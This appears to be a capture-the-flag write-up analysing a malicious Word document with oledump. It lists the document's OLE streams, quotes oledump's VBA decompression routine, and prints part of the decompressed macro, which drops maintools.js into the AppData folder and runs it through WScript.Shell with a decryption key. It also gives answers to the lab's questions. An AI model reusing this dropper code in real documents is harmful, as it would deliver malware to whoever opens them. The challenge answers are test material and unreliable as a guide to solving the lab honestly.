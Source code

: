 ```yaml
---
layout: post
category: CTF
---
```


In this challenge we are dealing with malicious doc file so probably we will be dealing with some VBA scripts. But let's not get ahead of ourselves. 

The assignment is as follows:
During your shift as a SOC analyst, the enterprise EDR alerted a suspicious behavior from an end-user machine. The user indicated that he received a recent email with a DOC file from an unknown sender and passed the document for you to analyze.

First question is about hashing so we will skip that one 

### Table of contents
- [Macros in stream](#macros-in-streams)
- [OLE streams and embedded VBA macros](#ole-streams-and-embedded-vba-macros)
- [Contents of the VBA script](#contents-of-the-vba-script)
- [Maintools.js](#maintoolsjs)

### Macros in streams 

	Q: Multiple streams contain macros in this document. Provide the number of lowest one.

```
  1:       114 '\x01CompObj'
  2:       284 '\x05DocumentSummaryInformation'
  3:       392 '\x05SummaryInformation'
  4:      8017 '1Table'
  5:      4096 'Data'
  6:       483 'Macros/PROJECT'
  7:        65 'Macros/PROJECTwm'
  8: M    7117 'Macros/VBA/Module1'
  9: m    1104 'Macros/VBA/ThisDocument'
 10:      3467 'Macros/VBA/_VBA_PROJECT'
 11:      2964 'Macros/VBA/__SRP_0'
 12:       195 'Macros/VBA/__SRP_1'
 13:      2717 'Macros/VBA/__SRP_2'
 14:       290 'Macros/VBA/__SRP_3'
 15:       565 'Macros/VBA/dir'
 16:        76 'ObjectPool/_1541577328/\x01CompObj'
 17: O   20301 'ObjectPool/_1541577328/\x01Ole10Native'
 18:      5000 'ObjectPool/_1541577328/\x03EPRINT'
 19:         6 'ObjectPool/_1541577328/\x03ObjInfo'
 20:    133755 'WordDocument'
```

To see all macros in the ole streams we can simply use `Oledump` which enables us to quickly discover possible culprits in our investigation thanks to the indicators next to the stream number. I have provided an overview of all possible indicators bellow:


- M: Macro (attributes and code)
- m: macro (attributes without code)
- E: Error (code that throws an error when decompressed)
- !: Unusual macro (code without attributes)
- O: object (embedded file)
- .: storage
- R: root entry

So for our use case we will take a closer look at stream #8 - since it contains a macro with attributes and code. 

---
#### OLE streams and embedded VBA macros 

You can skip this part if you are only interested in the challenge. But I try to  look at these challenges in slightly different light and if something interests me I try and dig little deeper 

You might or might not heard about OLE files but in essence : 
```
An OLE file can be seen as a mini file system or a Zip archive: It contains streams of data that look like files embedded within the OLE file. Each stream has a name. For example, the main stream of a MS Word document containing its text is named “WordDocument”.

An OLE file can also contain storages. A storage is a folder that contains streams or other storages. For example, a MS Word document with VBA macros has a storage called “Macros”.

Special streams can contain properties. A property is a specific value that can be used to store information such as the metadata of a document (title, author, creation date, etc).
```
[About the structure of OLE files](https://olefile.readthedocs.io/en/latest/OLE_Overview.html)

With this info we can basically unzip the evil doc as if it were regular zip file. If we decide to do so we are able to navigate the file structure and find the suspicious stream `Module1`

If we just try to open the file with text editor we might see some text but certainly it is not readable - we have to decompress it  ( i found that maybe some older formats such as .doc may use LZ77 compression algorithm - but I'm not certain so maybe someone can share some insight )

I took a look at source code of `oledump`  and found following functions - that to my knowledge are responsible for the decompression 

[OleDump-source](https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py)

```
def DecompressChunk(compressedChunk):
    if len(compressedChunk) < 2:
        return None, None
    header = P23Ord(compressedChunk[0]) + P23Ord(compressedChunk[1]) * 0x100
    size = (header & 0x0FFF) + 3
    flagCompressed = header & 0x8000
    data = compressedChunk[2:2 + size - 2]

    if flagCompressed == 0:
        return data.decode(errors='ignore'), compressedChunk[size:]

    decompressedChunk = ''
    while len(data) != 0:
        tokens, data = ParseTokenSequence(data)
        for token in tokens:
            if type(token) == int:
                decompressedChunk += chr(token)
            elif len(token) == 1:
                decompressedChunk += token
            else:
                if decompressedChunk == '':
                    return None, None
                numberOfOffsetBits = OffsetBits(decompressedChunk)
                copyToken = P23Ord(token[0]) + P23Ord(token[1]) * 0x100
                offset = 1 + (copyToken >> (16 - numberOfOffsetBits))
                length = 3 + (((copyToken << numberOfOffsetBits) & 0xFFFF) >> numberOfOffsetBits)
                copy = decompressedChunk[-offset:]
                copy = copy[0:length]
                lengthCopy = len(copy)
                while length > lengthCopy: #a#
                    if length - lengthCopy >= lengthCopy:
                        copy += copy[0:lengthCopy]
                        length -= lengthCopy
                    else:
                        copy += copy[0:length - lengthCopy]
                        length -= length - lengthCopy
                decompressedChunk += copy
    return decompressedChunk, compressedChunk[size:]

def Decompress(compressedData, replace=True):
    if P23Ord(compressedData[0]) != 1:
        return (False, None)
    remainder = compressedData[1:]
    decompressed = ''
    while len(remainder) != 0:
        decompressedChunk, remainder = DecompressChunk(remainder)
        if decompressedChunk == None:
            return (False, decompressed)
        decompressed += decompressedChunk
    if replace:
        return (True, decompressed.replace('\r\n', '\n'))
    else:
        return (True, decompressed)
```
---
### Contents of the VBA script 

    Q: What is the decryption key of the obfuscated code?

If we want to see the contents of the VBA script we have to decompress it first. 
The decompression can be done with `oledump` 

- we might read the streams directly and then decompress it  with :

`oledump 49b367ac261a722a7c2bbbc328c32545 -s 8 -v` 

- or ( if we unzipped the file ) navigate to the Module1 and  read it with `-r` (raw)  and `-v` (vbadecompress) :


`oledump -r C:\Users\xd\Desktop\cyberdefenders\76-Obfuscated\49b367ac261a722a7c2bbbc328c32545~\Macros\VBA\Module1 -v` 

Both produce the same output - obfuscated code. 

Snippet bellow gives us a glimpse into what we are dealing with : 
```
B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
B8qen2T433Ds1bW = Environ("appdata")
End If
Set R7Ks7ug4hRR2weOy7 = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End Sub

```

You might have noticed some interesting variables / functions such as : 
- `OBKHLrC3vEDjVL` - Full path to maintools.js
- `R66BpJMgxXBo2h` - WHS 

Especially the last one `R66BpJMgxXBo2h` that creates WHS that is then used to run `OBKHLrC3vEDjVL` ( maintools.js) with decryption key `EzZETcSXyKAdF_e5I2i1`

---
### maintools.js

    Q: This script uses what language? 

This is one is strange to be completely honest because the extension is `.js` which as you suspect is JavaScript - but apparently it can also be JScript.

